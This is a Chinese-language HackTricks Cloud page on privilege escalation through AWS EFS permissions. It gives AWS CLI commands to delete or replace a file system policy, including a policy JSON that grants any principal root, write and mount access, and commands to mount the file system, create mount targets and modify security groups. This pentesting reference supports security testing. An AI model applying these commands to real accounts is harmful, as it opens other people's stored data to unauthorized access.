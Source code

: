 # AWS - EFS特权升级

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## EFS

有关EFS的更多**信息**请参见：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

请记住，要挂载EFS，您需要位于EFS公开的子网中并具有对其的访问权限（安全组）。如果发生这种情况，默认情况下，您始终可以挂载它，但是，如果它受IAM策略的保护，您需要具有在此处提到的额外权限才能访问它。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

使用这些权限之一，攻击者可以**更改文件系统策略**以**授予您访问权限**，或者只是**删除它**以授予**默认访问权限**。

要删除策略：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
要进行更改：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

使用此权限，攻击者将能够**挂载EFS**。如果未将写入权限默认授予所有可以挂载EFS的人，则攻击者将只具有**读取访问权限**。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
额外的权限`elasticfilesystem:ClientRootAccess`和`elasticfilesystem:ClientWrite`可以在文件系统被挂载后用于**写入**文件系统并以**root身份访问**该文件系统。

**潜在影响：**通过在文件系统中定位敏感信息进行间接权限提升。

### `elasticfilesystem:CreateMountTarget`

如果攻击者位于**子网**中，且该子网中**不存在EFS的挂载目标**，他可以使用此权限**在自己的子网中创建一个挂载目标**：
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在影响：**通过在文件系统中定位敏感信息进行间接权限提升。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

在攻击者发现EFS在其子网中具有挂载目标但**没有安全组允许流量**的情况下，攻击者可以通过**修改所选的安全组**来改变这种情况：
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在影响：**通过在文件系统中定位敏感信息进行间接权限提升。

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧。**

</details>
